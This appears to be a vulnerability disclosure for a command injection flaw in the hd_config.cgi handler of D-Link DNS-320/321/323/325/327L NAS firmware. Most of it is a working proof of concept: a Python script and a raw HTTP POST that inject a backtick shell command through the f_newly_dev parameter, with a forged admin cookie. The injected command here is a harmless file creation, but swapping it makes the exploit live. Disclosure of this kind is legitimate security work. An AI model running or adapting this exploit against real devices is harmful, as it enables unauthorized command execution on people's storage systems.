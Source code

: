 # Overview
Firmware download website:
 [https://ftp.dlink.ru/pub/NAS/](https://ftp.dlink.ru/pub/NAS/)
# Affected version
DLINK DNS-320/320L/321/323/325/327L all versions of the firmware
# Vulnerability details
The DLINK nas DNS-320/320L/321/323/325/327L  all firmware version has a command injection vulnerability in cgi_FMT_Std2R1_DiskMGR function of the file /cgi-bin/hd_config.cgi.  The variable `f_newly_dev`is passed from a POST request and is assigned to `v3` via the `sprintf` function at line 20 and invoked by the `system` command, it can lead to command execution. 
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723735858024-e22790c1-bdd7-4218-92c1-fc2fa17b69c3.png#averageHue=%23fbfbf8&clientId=u003f8b5d-5f3a-4&from=paste&height=266&id=ue9ea7411&originHeight=266&originWidth=1101&originalType=binary&ratio=1&rotation=0&showTitle=false&size=50975&status=done&style=none&taskId=u9f346f56-1fa0-421f-b318-ef88bb2cb0e&title=&width=1101)
# POC
```python
import requests

url = "http://192.168.0.32/cgi-bin/hd_config.cgi"
headers = {
    "Host": "192.168.0.32",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.32",
    "Connection": "close",
    "Referer": "http://192.168.0.32/photo_center/index.html",
    "Cookie": "username=admin",
    "Priority": "u=1"
}

data = "cmd=cgi_FMT_Std2R1_DiskMGR&f_volume_name=1&f_newly_dev=`touch+/tmp/128`&f_file_system=1&f_source_dev=1&f_auto_sync=1"
response = requests.post(url, headers=headers, data=data)
print(response.text)
```

```
POST /cgi-bin/hd_config.cgi HTTP/1.1
Host: 192.168.0.32
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 70
Origin: http://192.168.0.32
Connection: close
Cookie: username=admin
Priority: u=1

cmd=cgi_FMT_Std2R1_DiskMGR&f_volume_name=1&f_newly_dev=`touch+/tmp/128`&f_file_system=1&f_source_dev=1&f_auto_sync=1
```

